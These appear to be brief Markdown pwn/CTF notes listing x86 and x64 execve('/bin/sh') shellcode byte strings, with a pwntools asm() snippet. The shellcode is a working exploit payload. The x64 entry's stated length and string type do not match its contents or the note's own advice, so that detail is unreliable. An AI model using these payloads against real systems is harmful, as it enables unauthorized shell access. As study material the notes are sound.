 
# 一定要用 b'' 或 encode('latin')。否则flat时会用 utf格式编码字符就不对了
```sh
# https://github.com/yyanyi213/pwn/blob/master/shellcode
# len -- 21
shellcode_x86 = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
# len -- 24
shellcode_x64 = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```


# asm

```python
from pwn import asm
assembly_code = """
    ret
"""
shellcode = asm(assembly_code)
print(shellcode)
```